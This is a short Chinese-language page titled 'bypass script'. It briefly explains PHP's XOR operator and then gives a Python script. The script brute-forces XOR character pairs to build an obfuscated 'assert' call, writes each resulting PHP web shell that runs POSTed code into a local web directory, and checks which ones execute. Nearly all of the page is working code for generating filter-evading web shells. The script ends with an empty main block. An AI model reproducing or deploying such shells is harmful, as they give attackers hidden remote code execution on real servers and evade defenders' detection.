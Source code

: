 ![](image78/78-6.png)

#### bypass脚本

```python
""""
php异或
PHP之异或运算符---"^"
一.当均为数字时候
则先将数字转换成二进制数,然后再运算,运算规则也简单!
就是:
同则0,不同则1:运算的两个数在同一个位上相同则为0,不相同则为1!

二.当均为字符时
则先将字符转换成其对应的ASCII码,然后对产生的数字进行绝对值减运算!然后返回值转换成对应的字符!
如果两字符串长度不一样,则从两字符串起始位置起开始计算!之后多余的自动转换为空(视为一样)!

"""

import requests
import time

def xor_shell_creat():
    for i in range(0, 128):
        for j in range(0, 128):
            payload = "'" + chr(i) + "'" + "^" + "'" + chr(j) + "'"
            shell = "<?php $a=(" + payload + ").'ssert';$a($_POST[x]);?>"
            # print(shell)
            filename = str(i) + 'xor' + str(j) + '.php'
            with open('E:/phpstudy/PHPTutorial/WWW/test/' + filename, 'a') as f:
                f.write(shell)
                print(filename + '写入成功')
                f.close()
            url='http://127.0.0.1/test/'+filename
            data={
                'x':'phpinfo();'
            }
            result = requests.post(url,data=data).content.decode('utf-8')
            if 'DESKTOP-1CDDLPV' in result:
                print('check->' + filename + '->ok')
            else:
                print('check->' + filename + '->no')
            # time.sleep(1)

if __name__ == '__main__':
```